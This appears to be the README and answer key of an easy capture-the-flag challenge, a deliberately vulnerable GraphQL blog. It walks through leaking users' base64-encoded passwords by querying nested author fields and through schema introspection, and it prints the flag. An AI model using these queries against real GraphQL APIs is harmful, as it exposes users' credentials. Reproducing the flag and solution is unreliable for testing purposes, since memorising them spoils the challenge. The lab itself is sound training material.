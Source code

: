 # PostbookSideDoor

This challenge is a GraphQL IDOR exploitation. The goal of this challenge is to find the flag, that is located in an exposed password field. Your goal is to find a GraphQL query endpoint that reveals the blog users passwords. One of these passwords has the challenge flag hidden inside of it.
# Flag

flag{WASNTTHISASHITSHOW}

# Description

Proposed difficulty: very easy

Are you a fan of blogging?

# Prerequisites & Outcomes

**Prerequisites**

* Knowledge of Web and GraphQL basics 
* Knowledge on how decoding works

**Outcomes**

* Experience with nested GraphQL objects
* Understanding how different queries refer to the same objects and fields

# Solutions

**Possible Solution 1**

1. Create an account with any name and password.
2. Once logged in, you can access the profile page from the navbar.
3. In the profile page the app tries to send a GraphQL query called GetUser, which you can find in the network tab.

```GraphQL
    query GetDetailedUserInfo($userId: Int!) {
        getUser(UserId: $userId) {
            id
            name
            hashedPassword
        }
    }
```

4. This query requires admin authentication, therefore the response will be "Unauthorized access to detailed user data"

```json
{
    "data": null,
    "errors": [
        {
            "message": "Unauthorized access to detailed user data",
            "locations": [
                {
                    "line": 3,
                    "column": 29
                }
            ],
            "path": [
                "getUser"
            ]
        }
    ]
}
```

5. Even though the response doesn't give anything, from the query itself you can figure out the that the user object has the field `hashedPassowrd`.

6. Now knowing the fields that the `User` object has, in the index page there is the GraphQL query called `getAllPosts` which returns an array of posts, which have the `author` field, which is a nested `User` object.

7. Query `getAllPosts` with the author argument containing the field hashedPassword.

```GraphQL
query GetAllPosts {
    getAllPosts {
        author {
            hashedPassword
        }
    }
}
```
Response:
```json
{
    "data": {
        "getAllPosts": [
            {
                "author": {
                    "hashedPassword": "Sm9obiBEb2U6c2VjcmV0"
                }
            },
            ...
```
4. Recognize that the passwords are not in fact hashed but encoded with base64.

5. Loop through each password by decoding it, until you find the flag:

Encoded flag: `QsO4cmdlIFNtw7hycmVicsO4ZHNlbjpmbGFne1dBU05UVEhJU0FTSElUU0hPV30=` => Decoded: `Børge Smørrebrødsen:flag{WASNTTHISASHITSHOW}`

**Possible Solution 2**

1. Open a tool where you can query GraphQL (like Postman), explore all the queries and fields with Through the GUI. Or send a query request like this:
```GraphQL
{
  __schema {
    types {
      name
      kind
    }
  }
}
```
This query will return all types that are in the schema

```json
{
    "data": {
        "__schema": {
            "types": [
                {
                    "name": "Query",
                    "kind": "OBJECT"
                },
                {
                    "name": "UserType",
                    "kind": "OBJECT"
                },

                {
                    "name": "PostType",
                    "kind": "OBJECT"
                },
                ...
            
```
2. From the query above, you can find that the `PostType ` exists. Which then can be explored in more detail by querying:
```GraphQL
{
  __type(name: "PostType") {
    name
    fields {
      name
      type {
        ofType {
          name
          kind
        }
      }
    }
  }
}
```
That returns:
```json
{
    "data": {
        "__type": {
            "name": "PostType",
            "fields": [

            ...

                {
                    "name": "author",
                    "type": {
                        "ofType": {
                            "name": "UserType",
                            "kind": "OBJECT"
                        }
                    }
                }
            ]
        }
    }
}

```
3. From the response, you can see that there is a clear relationship between the `PostType` and the `UserType` through the `author` field.
4. Now using this knowledge, query
`findAllPosts`, which has the `author` field that contains the encoded user passwords. 
5. Loop through the passwords, recognize that it's encoded with base64, decode it and find the flag (same as the solution above from step 4).

# How to run challenge locally
1. Populate the `.env.example` file with the environment variables and rename it to `.env`.
2. Make sure you have Docker Engine running.
3. Run the following command to start the challenge:
```bash
docker compose build --no-cache;
docker compose up -d;
```
4. The challenge should be running on `http://localhost:8080`.